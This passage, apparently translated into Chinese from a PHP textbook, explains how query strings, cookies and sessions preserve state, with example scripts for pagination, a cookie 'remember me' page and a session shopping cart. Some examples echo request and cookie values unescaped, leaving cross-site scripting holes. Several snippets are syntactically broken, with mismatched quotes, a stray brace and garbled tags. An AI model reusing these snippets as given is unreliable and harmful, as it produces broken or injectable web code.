然而，当今你使用的大多数 Web 应用程序都需要在浏览器请求之间存储数据。例如，购物车需要记住你添加到了购物车中的哪些商品，而论坛应用程序需要在你每次在论坛发帖时记住你的身份。

换句话说，需要在一次请求到下一次请求之间保存用户与应用程序交互的当前状态。

你在上一章中已经研究过存储状态的一个简单示例，当时你使用隐藏表单字段来存储三阶段注册表单每个步骤中之前输入的表单数据。虽然填写注册表单涉及三个独立的浏览器请求——因此也是三次独立的 PHP 脚本运行——但脚本能够通过将状态存储在表单本身中来“记住”注册过程的状态。

虽然这种方法对于简单情况来说非常有效，但它有几个缺点。例如，这是一种存储大量数据的缓慢方式，因为在每个请求期间，所有数据都必须在浏览器和服务器之间来回传输。而且，这相当不安全，因为恶意用户几乎可以随意更改表单中存储的数据。此外，如果你需要在请求之间存储大量变量，以及数组和对象等复杂变量，隐藏表单字段方法会变得相当笨拙。


在本章中，你将学习其他保存状态的方法。你将学习如何使用：

- 查询字符串用于在 URL 中存储少量数据
- Cookie 用于在浏览器本身中存储较大量的数据
- 会话用于存储更大量的数据，并以更安全的方式存储

通过使用这三种方法中的任何一种（或它们的组合），你可以创建持久的 Web 应用程序，这些应用程序可以在一次页面视图和下一次页面视图之间携带其数据。

## 使用查询字符串保存状态

查询字符串是在浏览器请求之间传递少量数据的快速、便捷方式。查询字符串的常见用途包括在使用搜索功能时记住用户输入的关键字、标识要向用户显示的论坛中的哪个主题，以及指定要在博客中显示的哪个帖子。

查询字符串数据对用户来说非常容易更改，因为它在浏览器地址栏中可见且可编辑。因此，查询字符串仅应在发送错误数据不会影响安全性的情况下使用。例如，不要将查询字符串用于存储用户 ID 等内容（除非你的脚本还验证用户正是他们自称的人）。

> 你还需要确保不要依赖查询字符串来验证用户身份，因为人们经常在电子邮件或即时通讯应用程序中将 URL 发送给朋友。如果你的 URL 包含验证用户所需的所有数据，并且该用户将 URL 发送给朋友，那么朋友就可以冒充该用户！你会发现，会话——本章稍后将讨论——是验证用户身份的更好方法。

如果你已经学完了第 9 章，那么你已经对查询字符串的概念有些了解。你可能记得，可以通过将表单的 method 属性设置为 get 来在 URL 中嵌入已发送的表单数据。当表单数据发送到服务器时，它会以如下形式附加到 URL 末尾：

```
http://localhost/myscript.php?firstName=Fred&lastName=Bishop& ...
```

换句话说，浏览器在 URL 末尾添加一个查询字符（?），然后后跟每个表单字段，形式为“name=value”对，每对之间用一个与符号（&）分隔。查询字符串是 ? 字符之后的 URL 部分。

## 构建查询字符串

查询字符串的好处在于，它们不仅限于表单数据。因为查询字符串只是存储在 URL 中的一串字符，你可以在 PHP 脚本中手动创建包含查询字符串的 URL，然后将该 URL 作为链接包含在显示的页面或电子邮件中，例如。PHP 甚至提供了一些内置函数来使这个过程更容易。

这里有一个简单的示例，它创建两个变量 $firstName 和 $age，然后在显示的页面中创建一个包含查询字符串的链接来存储变量值：

```
$firstName = "John";
$age = "34";
$QueryString = "firstName=$firstName&age=$age";
echo '<p><a href="moreinfo.php?" . $QueryString . '">Find out more info on
this person</a></p>';
```

这段代码生成以下标记：

```
<p><a href="moreinfo.php?firstName=John&amp;age=34">Find out more info on
this person</a></p>
```

如果用户随后单击此链接，moreinfo.php 将运行，查询字符串数据（firstName=John&age=34）将传递给 moreinfo.php 脚本。数据已从一次脚本执行传输到下一次。

请注意，与符号（&）字符在 XHTML 标记中需要编码为 &amp;。

需要注意的一件事是，你插入查询字符串中字段名称和值的字符类型。查询字符串的规范仅允许在字段名称和值中使用以下字符：字母、数字以及符号 -、_、.（句点）、!、~、*、'（单引号）、( 和 )。

那么，如果你需要传输其他字符，例如空格、花括号或 ? 字符，该怎么办呢？答案是你应该使用 URL 编码。这是一种方案，它将任何保留字符编码为以百分号（%）符号开头的十六进制数字，但空格除外，空格编码为加号（+）符号。（不需要编码的字符，例如字母和数字，按原样发送。）

幸运的是，PHP 提供了一个名为 urlencode() 的函数，可以使用 URL 编码对任何字符串进行编码。只需传入要编码的字符串，它将返回编码后的字符串。因此，你可以使用 urlencode() 对可能包含保留字符的任何数据进行编码。这里有一个示例：

```
$firstName = "John";
$homePage = "http://www.example.com/";
$favoriteSport = "Ice Hockey";
$QueryString = "firstname=" . urlencode( $firstName ) . "&homePage=" . urlencode( $homePage ) . "&favoriteSport=" . urlencode( $favoriteSport );
echo '<p><a href="moreinfo.php?" . $QueryString . '">Find out more info on
this person</a></p>';
```

这段代码片段输出以下标记：

```
<p><a href="moreinfo.php?firstName=John&amp;homePage=http%3A%2F%2Fwww.example.com%2F&amp;favoriteSport=Ice+Hockey">Find out more info on this person</a></p>
```

如果你需要解码 URL 编码的字符串，可以使用相应的 urldecode() 函数。
有关详细信息，请参见 http://www.php.net/urldecode。

事实上，PHP 通过方便的内置 http_build_query() 函数使创建查询字符串变得更加容易。该函数接受一个字段名称和值的关联数组，并返回整个查询字符串。然后你可以将此字符串连同初始 ? 符号附加到你的 URL。如果生成 XHTML 标记，你还应将字符串传递给 PHP 的 htmlspecialchars() 函数，该函数会自动将 & 等转换为 &amp;：

```
$fields = array (
    "firstName" => "John",
    "homePage" => "http://www.example.com/",
    "favoriteSport" => "Ice Hockey"
);
echo '<p><a href="moreinfo.php?' . htmlspecialchars( http_build_query( $fields ) ) . '">Find out more info on this person</a></p>';
```

这段代码输出与之前相同的标记：

```
<p><a href="moreinfo.php?firstName=John&amp;homePage=http%3A%2F%2Fwww.example.com%2F&amp;favoriteSport=Ice+Hockey">Find out more info on this person</a></p>
```

## 访问查询字符串中的数据

你可能已经猜到了，要访问查询字符串中的字段名称和值，只需从 $_GET 超全局数组中读取它们，就像你正在处理使用 get 方法发送的表单一样：

```
$firstName = $_GET["firstName"];
$homePage = $_GET["homePage"];
```

因此，编写前一示例中引用的 moreinfo.php 脚本的简单版本很容易：

```
<?php
$firstName = $_GET["firstName"];
$homePage = $_GET["homePage"];
$favoriteSport = $_GET["favoriteSport"];

echo "<dl>";
echo "<dt>First name:</dt><dd>$firstName</dd>";
echo "<dt>Home page:</dt><dd>$homePage</dd>";
echo "<dt>Favorite sport:</dt><dd>$favoriteSport</dd>";
echo "</dl>";
?>
```

## 尝试一下：带分页的平方数

本示例显示平方数序列；即其他整数平方的整数。该脚本允许你查看任意多个平方数。它通过使用分页来实现这一点——该脚本一次只显示十个数字，但它使用查询字符串创建上一页和下一页链接，你可以使用这些链接查看更多数字。

将以下脚本保存为 number_squaring.php 到你的文档根文件夹，并在浏览器中运行它。你应该看到前十个整数（0 到 9）的平方出现。使用下一页链接查看下一组十个数字，依此类推。图 10-1 显示了脚本的运行效果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Number squaring</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
th { text-align: left; background-color: #999; }
th, td { padding: 0.4em; }
tr.alt td { background: #ddd; }
</style>
</head>
<body>

<?php
define( "PAGE_SIZE", 10 );
$start = 0;

if ( isset( $_GET["start"] ) && $_GET["start"] >= 0 and $_GET["start"] <=
1000000 ) {
$start = (int) $_GET["start"];
}

$end = $start + PAGE_SIZE - 1;
?>
 <h2>Number squaring</h2>

<p>Displaying the squares of the numbers <?php echo $start ?> to <?php echo
$end ?>:</p>

<table cellspacing="0" border="0" style="width: 20em; border: 1px solid
#666;">
<tr>
<th>n</th>
<th>n<sup>2</sup></th>
</tr>

<?php
for ( $i=$start; $i <= $end; $i++ )
{
?>
 <tr><?php if ( $i % 2 != 0 ) echo ' class="alt"' ?>
<td><?php echo $i?></td>
<td><?php echo pow( $i, 2 )?></td>
</tr>
<?php
}
?>
</table>
<p>


图 10-1

```
<?php if ( $start > 0 ) { ?>
 <a href="number_squaring.php?start=<?php echo $start - PAGE_SIZE ?>">&lt;Previous Page</a> |
 <?php } ?>

 <a href="number_squaring.php?start=<?php echo $start + PAGE_SIZE ?>">Next Page &gt;</a>
</p>
</body>
</html>
```

## 工作原理

脚本以常规的 XHTML 页面标题开始，为页面中的表格添加了一些 CSS 样式。接下来，脚本定义一个常量 PAGE_SIZE，用于保存每页显示的平方数数量（本例中为十个）。

脚本接着创建一个变量 $start，用于保存页面中要显示的第一个整数。默认值为零。但是，如果字段 start 已通过查询字符串传递给脚本——并且该字段的值在可接受范围内——则改用该值。请注意，脚本出于安全考虑将 $_GET['start'] 的值强制转换为整数；过滤和/或验证任何用户输入以确保其格式正确总是个好主意：

```php
$start = 0;

if ( isset( $_GET["start"] ) and $_GET["start"] >= 0 and $_GET["start"] <= 1000000 ) {
    $start = (int) $_GET["start"];
}
```

接下来，脚本计算当前页要显示的最后一个整数，并将其存储在另一个变量 $end 中：

```php
$end = $start + PAGE_SIZE - 1;
```

现在只需显示十个整数及其平方的表格即可。使用 PHP 的 pow() 函数计算每个整数的平方：

```php
?>
<h2>Number squaring</h2>
<p>Displaying the squares of the numbers <?php echo $start ?> to <?php echo $end ?>:</p>
<table cellSpacing="0" border="0" style="width: 20em; border: 1px solid #666;">
<tr>
<th>n</th>
<th>n<sup>2</sup></th>
</tr>
<?php
for ( $i=$start; $i <= $end; $i++ )
{
?>
<tr><?php if ( $i % 2 != 0 ) echo ' class="alt"' ?>>
<td><?php echo $i?></td>
<td><?php echo pow( $i, 2 )?></td>
</tr>
<?php
}
?>
</table>
```

最后，将显示“下一页”和（如适用）“上一页”链接。请注意脚本如何在每个链接中构建查询字符串：

```php
<p>
<?php if ( $start > 0 ) { ?>
<a href="number_squaring.php?start=<?php echo $start - PAGE_SIZE ?>">&lt;&lt; Previous Page</a> |
<?php } ?>

<a href="number_squaring.php?start=<?php echo $start + PAGE_SIZE ?>">Next Page &gt;&gt;</a>
</p>
```

*由于您知道 start 字段始终只包含数字，因此在此情况下无需对值进行 URL 编码。但是，如果字段值可能包含保留字符，则应使用 urlencode() 或 http_build_query()（如前面章节中讨论的那样）。*

### 使用 Cookie

至此，您已经学习了查询字符串以及（在上一章中）隐藏表单字段，作为在浏览器请求之间保持应用程序状态的方法。尽管这些技术足以处理少量临时数据，但当您需要存储更多数据并保存更长时间时，这些技术就会变得难以管理。例如，假设您希望允许每个用户为在您的网站上显示的文本选择字体大小。一旦用户选择了大小，您就需要在网站上的每个页面请求之间传递此值（无论是在隐藏表单字段中还是在查询字符串中），以便您的应用程序可以读取该值并为每个页面设置字体大小。显然，实现起来会非常麻烦。

Cookie 是解决此问题的一种稍微复杂一些的方法。Cookie 可让您在用户的浏览器本身中存储少量数据（不超过 4KB）。然后，每当浏览器请求您网站上的页面时，Cookie 中的所有数据都会自动随请求发送到服务器。这意味着您只需将数据发送一次到浏览器，从那时起，数据便会自动可用于您的脚本。

您可以让 Cookie 在固定时间内保持有效——从几秒钟到若干年均可——或者可以设置 Cookie 在关闭浏览器应用程序时过期。大多数现代浏览器每个网站域名最多可以存储 30 个 Cookie。

尽管与使用查询字符串相比，Cookie 稍微安全一些——例如，浏览器（默认情况下）仅将 Cookie 发送回创建它们的网站——但攻击者仍然很容易篡改它们。因此，您不应仅依赖 Cookie 中的数据来识别或验证用户。此外，在大多数浏览器中很容易禁用 Cookie 支持，许多人确实如此。这意味着您的网站不应依赖 Cookie 来实现基本功能——或者，如果依赖，则应在必要时提示用户为您的网站启用 Cookie。

但是，如果您需要持续存储非关键数据（例如用户偏好设置），那么 Cookie 是一个有用的工具。

> *提示：大多数浏览器允许您查看以及删除浏览器存储的任何 Cookie。这对于调试基于 Cookie 的脚本非常有用。例如，在 Firefox 中选择“编辑” ➡ “首选项”（Mac 上为 Firefox ➡ 首选项），然后选择“隐私”并单击“显示 Cookie”按钮。*

### Cookie 组件

Cookie 作为 HTTP 头的一部分从服务器发送到浏览器。以下是创建 Cookie 的 HTTP 头示例：

```
Set-Cookie: fontSize=3; expires=Tuesday, 6-Jan-2009 17:53:08 GMT; path=/;
domain=.example.com; HttpOnly
```

如您所见，Cookie 包含多个信息片段，下表进行了汇总：

| Cookie 字段 | 描述 |
| :--- | :--- |
| name（例如 fontSize） | Cookie 的名称。这很像表单字段的名称，或关联数组中的键。 |
| value（例如 3） | Cookie 的值。这类似于表单字段的值或关联数组中的值。 |
| expires | Cookie 应过期的时间。到达该时间点后，它将从浏览器中删除，不再在请求中发送回服务器。如果将此值设置为零或省略，Cookie 将在浏览器运行期间保持有效，并在浏览器退出时自动删除。 |
| path | 浏览器应将 Cookie 发送回的路径。如果指定了该值，浏览器仅将 Cookie 发送到包含此路径的 URL。例如，如果指定路径为 /admin/，则只有位于 /admin/ 文件夹（及其任何子文件夹）中的脚本才会收到 Cookie。如果不指定值，则默认使用脚本的当前目录。通常最好指定一个路径。如果希望 Cookie 在您网站的所有 URL 中都可用，请使用值 "/"。 |
| domain | 默认情况下，浏览器仅将 Cookie 发送回最初发送它的计算机。例如，如果您的网站 www.example.com 设置了 Cookie，则该 Cookie 仅会发送回以 http://www.example.com 开头的 URL。以 http://example.com 或 http://www2.example.com 开头的 URL 不会收到 Cookie。但是，如果将 domain 设置为 .example.com，浏览器将把 Cookie 发送回该域中的所有 URL，包括以 http://www.example.com、http://example.com 或 http://www2.example.com 开头的 URL。 |
| secure | 如果存在此字段，则表示仅当浏览器与服务器建立安全（https）连接时才应发送 Cookie。如果不存在此字段，无论连接是否安全，浏览器都会将 Cookie 发送到服务器。如果使用标准（http）连接，请省略此字段。 |
| HttpOnly | 如果存在此字段，则告诉浏览器仅允许在 Web 服务器上运行的脚本（即通过 HTTP）访问 Cookie 数据。尝试通过网页中的 JavaScript 访问 Cookie 将被拒绝。这有助于降低应用程序遭受跨站点脚本（XSS）攻击的风险。 |

_虽然您可以使用 domain 字段让浏览器将 Cookie 发送回同一域中的其他机器，但不能使用此技巧为其他域设置 Cookie。例如，如果您的网站 www.example.com 尝试设置 domain 值为 www.google.com 的 Cookie，浏览器会拒绝该 Cookie。_


## 在 PHP 中设置 Cookie

那么，如何在 PHP 脚本中实际向浏览器发送 Cookie 呢？虽然你可以直接作为 Set-Cookie: HTTP 标头（使用 PHP 的 header() 函数）来设置 Cookie，但有一个更简单的方法。PHP 提供了一个内置函数 setcookie()，它可以向浏览器发送适当的 HTTP 标头以创建 Cookie。这接受按前一表中所示顺序排列的每个 Cookie 字段的参数。虽然只有 name 参数是必需的，但最好始终至少提供 name、value、expires 和 path，以避免任何歧义。

expires 参数应采用 UNIX 时间戳格式。UNIX 时间戳表示为 1970 年 1 月 1 日午夜（UTC 时区）与要表示的日期/时间之间的秒数。不过，请放心——你不需要亲自计算此值。PHP 提供了许多与时间相关的函数来计算此值，稍后你将看到。

> 有关 PHP 时间和日期相关函数的更多信息，请参见第 16 章。

请确保在向浏览器发送任何输出之前调用 setcookie()。这是因为 setcookie() 需要发送 Set-Cookie: HTTP 标头。如果在调用 setcookie() 之前输出任何内容，PHP 会自动先发送标头，因此等到调用 setcookie() 时，发送 Set-Cookie: 标头就已经太晚了。

下面是一个示例，使用 setcookie() 创建存储用户字体大小偏好设置（本例中为 3）的 Cookie：

```
setcookie ("fontSize", 3, time() + 60 * 60 * 24 * 365, "/", ".example.com", false, true );
```

请注意，expires 参数使用了名为 time() 的 PHP 函数。该函数以 UNIX 时间戳格式返回当前时间。因此，过期时间是当前时间之后的 60 * 60 * 24 * 365 秒，也就是一年后。Cookie 将保留到那时，即使关闭并重新打开浏览器也是如此，除非用户选择手动删除它。其余参数设置路径为 "/"（因此 Cookie 将返回给网站中的任何 URL）、域为 ".example.com"（因此 Cookie 将发送到 example.com 域内的任何服务器）、无 secure 标志（因此 Cookie 可以通过标准 HTTP 连接发送）以及 HttpOnly 标志（因此 JavaScript 无法读取 Cookie）。

> 请注意，最好在域值前加上一个点（.）字符，例如 ".example.com"，除非域是诸如 www.example.com 之类的主机名，在这种情况下不应使用初始句点。

在下一个示例中，setcookie() 用于存储用户当前浏览器会话中的页面浏览次数。请注意，expires 参数为零，因此当用户关闭浏览器时 Cookie 将消失。此外，domain 参数是一个空字符串，这意味着浏览器只会将 Cookie 发回创建它的准确 Web 服务器：

```
setcookie("pageViews", 7, 0, "/", "", false, true );
```

你也可以通过使用 Cookie 名称和新值调用 setcookie() 来简单地更新现有 Cookie。请注意，更新 Cookie 时仍然需要提供 path 和 expires 参数：

```
setcookie("pageViews", 8, 0, "/", "", false, true );
```

## 在脚本中访问 Cookie

在 PHP 中访问 Cookie 非常简单：你只需从 `$_COOKIE` 超全局数组中读取值。正如你所想象的，这个关联数组包含当前请求中浏览器发送的所有 Cookie 值列表，并按 Cookie 名称作为键。

因此，要显示前一个示例中设置的 `pageViews` Cookie，可以使用：

```
echo $_COOKIE["pageViews"]; // Displays "8"
```

与 `$_GET` 和 `$_POST` 类似，在实际情况中，你不应该在未先过滤和/或验证的情况下直接输出 `$_COOKIE` 数组中的数据。攻击者很容易将恶意数据注入到发送到服务器的 Cookie 中。

重要的是要意识到，新创建的 Cookie 在下一次浏览器请求之前，无法通过 `$_COOKIE` 供你的脚本使用。这是因为第一次运行脚本时，它仅将 Cookie 发送到浏览器。浏览器在下次向服务器请求 URL 之前，不会将 Cookie 返回到服务器。例如：

```
setcookie( "pageViews", 7, 0, "/", "", false, true );
echo isset( $_COOKIE["pageViews"] );
```

第一次运行此代码时，它不显示任何内容（false），因为 `$_COOKIE["pageViews"]` 不存在。但是，如果用户重新加载页面以再次运行脚本，脚本将显示 `1`（true），因为浏览器已将 `pageViews` Cookie 发回到服务器，因此它在 `$_COOKIE` 数组中可用。

同样，如果你更新 Cookie 的值，则在脚本执行期间 `$_COOKIE` 数组仍然包含旧值。只有当用户在浏览器中重新加载页面以再次运行脚本时，`$_COOKIE` 数组才会使用新值进行更新。

## 删除 Cookie

如果不再需要存储在用户浏览器中的 Cookie，你可以指示浏览器将其删除。要删除 Cookie，请使用 Cookie 名称和任何值（例如空字符串）调用 `setcookie()`，并传入过去的 `expires` 参数。这会立即使浏览器上的 Cookie 过期，确保其被删除。你还应传入首次创建 Cookie 时使用的完全相同的 `path`、`domain` 和其他字段，以确保删除正确的 Cookie：

```
setcookie( "fontSize", "", time() - 3600, "/", ".example.com", false, true );
```

此示例将 `fontSize` Cookie 的过期时间设置为过去的一小时，这实际上会将其从浏览器中删除。

与创建和更新 Cookie 类似，通过 `setcookie()` 删除 Cookie 不会在脚本运行期间将其从 `$_COOKIE` 数组中删除。但是，下次浏览器访问页面时，它将不再向服务器发送该 Cookie，相应的 `$_COOKIE` 数组元素也不会被创建。

## 试一试：记住用户信息

在此示例中，你将创建一个脚本，该脚本可以将访问者的名和位置存储在两个浏览器 Cookie 中，从 Cookie 中检索并显示信息，并在请求时删除 Cookie。

将以下脚本保存为 remember_me.php 并放在你的文档根文件夹中，然后在浏览器中运行该脚本。你将看到一个询问你的姓名和位置的表单。输入信息并单击 Send Info。你将看到类似于图 10-2 的页面。尝试在浏览器中重新加载页面，或在新浏览器窗口中重新打开 URL。请注意，即使你已向服务器发送新请求，脚本仍会记住你的信息。你甚至可以重新启动浏览器并返回该页面，脚本仍然会记住你的详细信息。

单击“Forget about me!”链接以删除包含你详细信息的 Cookie。脚本将重新显示用户详细信息表单。

```
<?php
if ( isset( $_POST["sendInfo"] ) ) {
    storeInfo();
} elseif ( isset( $_GET["action"] ) and $_GET["action"] == "forget" ) {
    forgetInfo();
} else {
    displayPage();
}

function storeInfo() {
    if ( isset( $_POST["firstName"] ) ) {
        setcookie( "firstName", $_POST["firstName"], time() + 60 * 60 * 24 * 365,
            "", "", false, true );
    }

    if ( isset( $_POST["location"] ) ) {
        setcookie( "location", $_POST["location"], time() + 60 * 60 * 24 * 365, "",
            "", false, true );
    }

    header( "Location: remember_me.php" );
}

function forgetInfo() {
    setcookie( "firstName", "", time() - 3600, "", "", false, true );
    setcookie( "location", "", time() - 3600, "", "", false, true );
    header( "Location: remember_me.php" );
}

function displayPage() {
    $firstName = ( isset( $_COOKIE["firstName"] ) ) ? $_COOKIE["firstName"] : "";
    $location = ( isset( $_COOKIE["location"] ) ) ? $_COOKIE["location"] : "";
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Remembering user information with cookies</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h2>Remembering user information with cookies</h2>
<?php if ( $firstName or $location ) { ?>
<p>Hi, <?php echo $firstName ? $firstName : "visitor" ?><?php echo $location ? " in $location" : "" ?>!</p>
<p>Here's a little nursery rhyme I know:</p>
<p><em>Hey diddle diddle,<br />
The cat played the fiddle,<br />
The cow jumped over the moon.<br />
The little dog laughed to see such sport,<br />
And the dish ran away with the spoon.</em></p>
<p><a href="remember_me.php?action=forget">Forget about me!</a></p>
<?php } else { ?>
<form action="remember_me.php" method="post">
<div style="width: 30em;">
<label for="firstName">What's your first name?</label>
<input type="text" name="firstName" id="firstName" value="" />
<label for="location">Where do you live?</label>
<input type="text" name="location" id="location" value="" />
<div style="clear: both;">
<input type="submit" name="sendInfo" value="Send Info" />
</div>
</div>
</form>
<?php } ?>
<?php
}
?>
</body>
</html>
```


图 10-2

## 工作原理

脚本首先执行主要的决策逻辑。如果已发送用户详细信息表单，则调用 storeInfo() 将详细信息保存在 cookie 中。如果点击了“忘掉我！”链接，则调用 forgetInfo() 擦除 cookie。如果上述情况均未发生，脚本会调用 displayPage() 向访问者显示输出内容：

```
if ( isset( $_POST["sendInfo"] ) ) {
    storeInfo();
} elseif ( isset( $_GET["action"] ) and $_GET["action"] == "forget" ) {
    forgetInfo();
} else {
    displayPage();
}
```

storeInfo() 函数会在 $_POST 数组中查找用户信息字段 firstName 和 location。对于每个字段，如果找到该字段，则会向浏览器发送相应的 cookie 以存储字段值。每个 cookie 的过期时间设置为从今天起一年。最后，函数会设置 Location: 头部，导致浏览器重新加载 remember_me.php 脚本。请注意，这种重新加载会导致浏览器将刚创建的 cookie 发送回脚本：

```
function storeInfo() {
    if ( isset( $_POST["firstName"] ) ) {
        setcookie( "firstName", $_POST["firstName"], time() + 60 * 60 * 24 * 365,
        "", "", false, true );
    }

    if ( isset( $_POST["location"] ) ) {
        setcookie( "location", $_POST["location"], time() + 60 * 60 * 24 *
        365, "", "", false, true );
    }

    header( "Location: remember_me.php" );
}
```

forgetInfo() 函数将 firstName 和 location 两个 cookie 的过期时间都设置为一小时前，从而有效地将它们从浏览器中删除。接着，它会发送 Location: 头部以重新加载 remember_me.php 脚本。浏览器不会将 cookie 发送给脚本，因为它们刚刚已被删除：

```
function forgetInfo() {
  setcookie( "firstName", "", time() - 3600, "", "", false, true );
  setcookie( "location", "", time() - 3600, "", "", false, true );
  header( "Location: remember_me.php" );
}
```

最后的函数 displayPage() 会向访问者显示输出内容。它首先创建两个变量来保存用户信息 cookie（如果有）的值：

```
$firstName = ( isset( $_COOKIE["firstName"] ) ) ? $_COOKIE["firstName"] : "";
$location = ( isset( $_COOKIE["location"] ) ) ? $_COOKIE["location"] : "";
```

接下来，在显示页面标题后，函数会检查 $firstName 和 $location 的值。如果任一变量包含非空值，函数将显示一个问候页面，其中包含访问者信息、一段短童谣以及指向 remember_me.php 脚本的“忘掉我！”链接。该链接包含查询字符串 action=forget，用以向脚本发出用户希望删除其信息的信号：

```
<?php if ( $firstName or $location ) { ?>

<p>Hi, <?php echo $firstName ? $firstName : "visitor" ?>?><?php echo $location ? " in $location" : "" ?>?</p>

<p>Here's a little nursery rhyme I know:</p>

<p><em>Hey diddle diddle,<br />
The cat played the fiddle,<br />
The cow jumped over the moon.<br />
The little dog laughed to see such sport,<br />
And the dish ran away with the spoon.</em></p>

<p><a href="remember_me.php?action=forget">Forget about me!</a></p>
```

但是，如果 $firstName 和 $location 都为空，脚本则改为显示用户信息表单：

```
<?php } else { ?>

<form action="remember_me.php" method="post">
<div style="width: 30em;">
<label for="firstName">What's your first name?</label>
<input type="text" name="firstName" id="firstName" value="" />
<label for="location">Where do you live?</label>
<input type="text" name="location" id="location" value="" />
<div style="clear: both;">
<input type="submit" name="sendInfo" value="Send Info" />
</div>
</div>
</form>

<?php } ?>
```

从这个示例可以看出，cookie 是以半永久方式存储少量数据的一种便捷方式。由于 cookie 存储在浏览器中，您无需在每次查看页面时都担心将数据发送到浏览器。您只需设置一次 cookie，然后在需要时稍后读取其值即可。

## 使用 PHP 会话存储数据

虽然 cookie 是存储数据的一种有用方式，但它们有一些问题。首先，它们不够安全。与表单数据和查询字符串一样，攻击者可以轻松修改 cookie 的内容，插入可能破坏您的应用程序或危及安全的数据。其次，虽然您可以在 cookie 中存储相当数量的状态信息，但请记住，每当浏览器请求服务器上的 URL 时，都会发送网站的所有 cookie 数据。如果在浏览器中存储了 10 个 cookie，每个大小为 4KB，那么每次用户查看页面时，浏览器都需要上传 40KB 的数据！

使用 PHP 会话可以克服这两个问题。PHP 会话不将数据存储在浏览器中，而是将数据存储在服务器上，并将一个简短的会话 ID 字符串（称为 SID）与该数据关联。然后，PHP 引擎会向浏览器发送一个包含 SID 的 cookie 以供存储。随后，当浏览器请求网站上的 URL 时，它会将 SID cookie 发送回服务器，从而使 PHP 能够检索会话数据并使其对您的脚本可用。

PHP 生成的会话 ID 唯一、随机且几乎不可能被猜到，这使得攻击者很难访问或更改会话数据。此外，由于会话数据存储在服务器上，因此无需随每个浏览器请求发送。这使您可以在会话中存储比 cookie 中多得多的数据。

默认情况下，PHP 会将每个会话的数据存储在服务器上的临时文件中。临时文件的位置由 PHP 配置文件中的 `session.save_path` 指令指定。您可以使用以下命令显示此值：

```
echo ini_get ( "session.save_path" );
```

会话文件通常存储在 UNIX 或 Linux 系统的 /tmp 中，以及 Windows 系统的 C:\\WINDOWS\\Temp 中。

*ini_get() 可让您访问大多数 PHP 配置指令的值，而 ini_set() 可让您设置指令。您将在本章后面了解更多关于 ini_set() 的信息。*

尽管您可以在会话中存储相当数量的数据，但请记住，会话实际上只是为存储与用户当前与您的网站交互相关的临时数据而设计的。事实上，默认情况下，PHP 的会话 cookie 设置为在关闭浏览器时过期。如果您需要以更永久的方式存储数据，请考虑将其存储在文件中（参见下一章）或数据库中（参见第 12 至 14 章）。

## 创建会话

在 PHP 中创建会话非常简单。要在脚本中启动 PHP 会话，只需调用 `session_start()` 函数。如果是新会话，该函数会为会话生成一个唯一的 SID，并以名为 `PHPSESSID`（默认）的 cookie 形式将其发送到浏览器。但是，如果浏览器已因为会话已存在而向服务器发送了 `PHPSESSID` cookie，则 `session_start()` 会使用这个现有会话：

```
session_start();
```

不过有一个陷阱：因为 `session_start()` 在创建会话时需要在 HTTP 头中发送 `PHPSESSID` cookie，因此您必须在向浏览器输出任何内容之前调用它，这与使用 `setcookie()` 类似：

```
Hi there!
<?php
// Generates a "Cannot send session cookie - headers already sent" warning
session_start();
?>
```

## 读取和写入会话数据

在 PHP 中处理会话数据也很简单。您将所有会话数据作为键和值存储在 `$_SESSION[]` 超全局数组中。因此，您可以使用以下方式存储用户的名字：

```
$_SESSION["firstName"] = "John";
```

然后，您可以按以下方式显示用户的名字——无论是在同一页面请求中还是在稍后的请求中：

```
echo( $_SESSION["firstName"] );
```

您可以在会话中存储任何类型的数据，包括数组和对象：

```
$userDetails = array( "firstName" => "John", "lastName" => "Smith", "age" =>
   34 );
$_SESSION["userDetails"] = $userDetails;
```

但是，如果存储对象，请确保在尝试从 `$_SESSION` 数组中检索对象之前，先包含类定义（或类定义文件），以便 PHP 引擎在检索对象时能够正确识别它们：

```
session_start();

class WebUser {
   public $firstName;
   public $lastName;
}

if ( isset( $_SESSION["user"] ) ) {
   // Make sure the WebUser class is defined by this point
   print_r( $_SESSION["user"] );
} else {
   echo "Creating user...";
   $user = new WebUser;
   $user->firstName = "John";
   $user->lastName = "Smith";
   $_SESSION["user"] = $user;
}
```


## 尝试一下 创建一个简单的购物车

在本示例中，您使用会话为在线商店构建一个非常简单的购物车。有三种产品可供选择，用户可以将任何或所有产品添加到购物车中，从购物车中删除产品，并查看购物车的内容。

将以下代码另存为 `shopping_cart.php` 并在 Web 浏览器中运行该脚本。单击“添加项目”链接将项目添加到购物车，然后单击“删除”链接将其移除。图 10-3 展示了购物车的实际运行情况。

```
<?php
session_start();

class Product {
private $productId;
private $productName;
private $price;

public function __construct( $productId, $productName, $price ) {
$this->productId = $productId;
$this->productName = $productName;
$this->price = $price;
}

public function getId() {
return $this->productId;
}

public function getName() {
return $this->productName;
}

public function getPrice() {
return $this->price;
}
}

$products = array(
1 => new Product( 1, "SuperWidget", 19.99 ),
2 => new Product( 2, "MegaWidget", 29.99 ),
3 => new Product( 3, "WonderWidget", 39.99 )
);

if ( !isset( $_SESSION["cart"] ) ) $_SESSION["cart"] = array();

if ( isset( $_GET["action"] ) and $_GET["action"] == "addItem" ) {
addItem();
} elseif ( isset( $_GET["action"] ) and $_GET["action"] == "removeItem" ) {
removeItem();
} else {
displayCart();
}
}

function addItem() {
    global $products;
    if ( isset( $_GET["productId"] ) and $_GET["productId"] >= 1 and $_GET["productId"] <= 3 ) {
        $productId = (int) $_GET["productId"];

        if ( !isset( $_SESSION["cart"][$productId] ) ) {
            $_SESSION["cart"][$productId] = $products[$productId];
        }
    }

    session_write_close();
    header( "Location: shopping_cart.php" );
}

function removeItem() {
    global $products;
    if ( isset( $_GET["productId"] ) and $_GET["productId"] >= 1 and $_GET["productId"] <= 3 ) {
        $productId = (int) $_GET["productId"];

        if ( isset( $_SESSION["cart"][$productId] ) ) {
            unset( $_SESSION["cart"][$productId] );
        }
    }

    session_write_close();
    header( "Location: shopping_cart.php" );
}

function displayCart() {
    global $products;
    ?>
